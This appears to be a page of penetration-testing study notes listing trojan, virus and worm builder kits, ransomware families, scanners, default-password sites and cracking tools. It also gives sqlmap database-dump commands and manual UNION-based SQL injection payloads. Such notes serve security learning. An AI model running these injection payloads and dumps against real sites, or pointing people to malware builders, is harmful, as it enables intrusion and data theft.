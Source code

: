 >[!TIP]- ## Creating a trojan
>### Trojan Horse Construction Kits
>- DarkHorse Trojan Virus Maker
>- Trojan Horse Construction Kit
>- Senna Spy Trojan Generator
>- Batch Trojan Generator
>- Umbra Loader - Botnet Trojan Maker

> [!tip]- ## Creating a Virus 
> ### Virus Maker Tools
> -DELmE's Batch Virus Maker
> -Bhavesh Virus Maker SKW
> -Deadly Virus Maker
> -SonicBat Batch Virus Maker
> -TeraBIT Virus Maker
> -Andreinick05's Batch Virus Maker

>[!tip]- ## Ransomware Families
>- Cerber
> - CTB-Locker
> - Sodinokibi
> - BitPaymer
> - CryptXXX
> - Cryptorbit ransomware
> - Crypto Locker Ransomware
> - Crypto Defense Ransomware
> - Crypto Wall Ransomware

> [!tip]- ## Worm Maker
> - Internet worm Maker thing
> - Batch Worm Maker
> - C++ Worm Generator

>[!TIP]- ## Vulnerability Assessment Tools
> - Qualys Vulnerability Management
> - OpenVAS  
> - GFI LanGuard
> - Nessus Professional
> - Nikto
> - Qualys FreeScan
> - Nexpose
> - SAINT Security Suite
> - Network Security Scanner
> - Core Impact 
> - N-Stalker Web Application Security Scanner

> [!tip]- ## Online Tools to Search Default Passwords
> - https://www.fortypoundhead.com
> - https://cirt.net
> - http://www.defaultpassword.us
> - https://www.routerpasswords.com
> - https://default-password.info

>[!tip]- ## Password Cracking Tools
> - L0pht Crack (Password audit)
> - Oph Crack (Ranbow tables)
> - Ranbow Crack
> - John the ripper - www.openwall.com
> - Hashcat - www.hashcat.net
> - THC-Hydra - www.github.com
> - Medusa - www.foofus.com

>[!tip]- ## SQL Injection
> #### Sample Websites:
> www.vulnweb.com
> 	
> - ### sqlmap
> 
> ```bash
> // to get database
> sudo sqlmap -u (website_url) --dbs   
>
> // to get tables in database
> sudo sqlmap -u (website_url) -D (database_name) --tables
>
>// to get columns in table
> sudo sqlmap -u (website_url) -D (database_name) -T users --columns
> 
> // now to get data from columns
> sudo sqlmap -u (website_url) -D (database_name) -T users -C (columns_name) --dump
> ```
> - ### using no tool
> ```bash
> // get coloumns numbers
> (link) order by 3-- 
>
>// how to get table name from database
> (link) union select 1,2,group_concat(table) from information_schema.tables where table_scheme = database()--
>	-> 1,2,group_concat = because 3 columns are present and instead of 3 we wrote that because we are using 3rd column
>	->   from information_schema.tables = telling it where to look
>
>// how to get columns name from table
> (link) union select 1,2,group_concat(columns_name) from information_schema.columns where table_name = "user"--
>
>// how to get data name from column
> (link) union select 1,2,group_concat(Name_of_column) from name_of_table--
>```

>[!tip]- ## Creating Dictionary
>### Tool : **CRUNCH**
>```bash
>crunch _min_  _max_ _Options_>```

